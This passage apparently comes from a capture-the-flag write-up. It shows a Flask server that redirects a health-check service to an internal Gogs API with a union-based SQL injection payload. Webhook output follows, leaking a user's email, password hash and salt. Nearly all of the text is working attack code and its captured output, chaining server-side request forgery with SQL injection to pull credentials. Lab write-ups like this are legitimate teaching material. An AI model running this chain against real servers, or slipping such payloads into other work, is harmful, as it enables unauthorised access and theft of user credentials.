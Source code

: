 

    from flask import Flask, redirect, request

    app = Flask(__name__)


    @app.route("/redirect", methods=["GET"])
    def redir():
        #target = "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,sqlite_version(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--/**/-"
        target = "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-"
        return redirect(target)


    @app.route("/test", methods=["GET"])
    def test():
        return ("Hello!", 200)


    @app.route("/hook", methods=["POST"])
    def hook():
        print("Got Hook!")
        print(request.json)
        return ('', 200)


    if __name__ == "__main__":
        app.run(debug=True, host="0.0.0.0", port=80)



I get the following back:



    10.10.11.176 - - [06/Jan/2023 22:27:43] "GET /redirect HTTP/1.0" 302 -
    Got Hook!
    {'webhookUrl': 'http://10.10.14.6/hook', 'monitoredUrl': 'http://10.10.14.6/redirect', 'health': 'up', 'body': '{"data":[{"username":"susanne","avatar":"//1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce"},{"username":"susanne:admin@gogs.local:66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37:sO3XIbeW14","avatar":"//1.gravatar.com/avatar/15"}],"ok":true}', 'message': 'HTTP/1.0 302 FOUND', 'headers': {'Content-Type': 'application/json; charset=UTF-8', 'Content-Length': '301', 'Location': "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,2,name||':'||email||':'||passwd||':'||salt,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27/**/from/**/user--/**/-", 'Server': 'Werkzeug/2.0.2 Python/3.8.10', 'Date': 'Fri, 06 Jan 2023 22:27:43 GMT', 'Set-Cookie': '_csrf=; Path=/; Max-Age=0'}}
    10.10.11.176 - - [06/Jan/2023 22:27:43] "POST /hook HTTP/1.1" 200 -



This includes:

-   user: susanne
-   email: admin@gogs.local
-   hash:
    66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37
-   salt: sO3XIbeW14
